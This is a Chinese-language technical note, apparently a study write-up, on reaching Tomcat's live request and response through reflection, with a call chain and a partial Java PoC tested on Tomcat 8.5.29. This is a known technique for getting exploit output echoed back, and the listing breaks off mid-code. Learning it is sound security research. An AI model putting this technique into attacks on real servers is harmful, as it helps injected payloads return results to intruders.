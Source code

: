 ## 总结
通过以下调用链, 可以获取到输出
```java
Thread.getCurrentThread().getContextClassLoader() -> 
    StandardService ->
        Connector#getProtocolHandler ->
            connections.value() ->
                request.nodes[1] ->
                    request
```


## 测试
以下的`PoC`, 仅在
- 系统环境为:`linux`
- jdk版本为：`java 1.8.0_252`
- `tomcat`版本: `8.5.29` 

下测试成功,不保证通用性。
仅作为学习调试用, 如果想使用通用的, 可以考虑下边两个参考的文章给出的`PoC`
```java
    @GetMapping("/upload3")
    public String upload3() throws IOException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException {
        String string = "1231231";
        Field contextField = StandardContext.class.getDeclaredField("context");
        Field serviceField = ApplicationContext.class.getDeclaredField("service");
        // 因为在AbstractHttp11Protocol类中，没有getHandler接口, 所以要调用父类的函数
        Method getHandlerMethod = AbstractProtocol.class.getDeclaredMethod("getHandler", null);
        contextField.setAccessible(true);
        serviceField.setAccessible(true);
        getHandlerMethod.setAccessible(true);
        WebappClassLoaderBase webappClassLoaderBase =
                (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        ApplicationContext applicationContext = (ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
        StandardService standardService = (StandardService) serviceField.get(applicationContext);
        Connector[] connectors = standardService.findConnectors();
        for (int i = 0; i < connectors.length; i++) {
            if (4 == connectors[i].getScheme().length()) {
                ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                if (protocolHandler instanceof AbstractHttp11Protocol) {
                    Class[] classes = AbstractProtocol.class.getDeclaredClasses();
                    for (int j = 0; j < classes.length; j++) {
                        if (52 == (classes[j].getName().length()) || 60 == (classes[j].getName().length())) {
                            System.out.println(classes[j].getName());
                            Object object = getHandlerMethod.invoke(protocolHandler, null);
//                            Object object = ((Http11NioProtocol) protocolHandler).getHandler();
                            Field field = object.getClass().getDeclaredField("connections");
                            field.setAccessible(true);
                            ConcurrentHashMap concurrentHashMap = (ConcurrentHashMap) field.get(object);
                            for (Object processor : concurrentHashMap.values()) {
                                org.apache.coyote.Request request = ((Processor) processor).getRequest();
                                Request request1 = (Request) request.getNote(1);
                                String output = "testtesttesttest";
                                Writer writer = request1.getResponse().getWriter();
                                System.out.println(request1.getResponse().getClass().getName());
                                Field usingWriter = request1.getResponse().getClass().getDeclaredField("usingWriter");
                                usingWriter.setAccessible(true);
```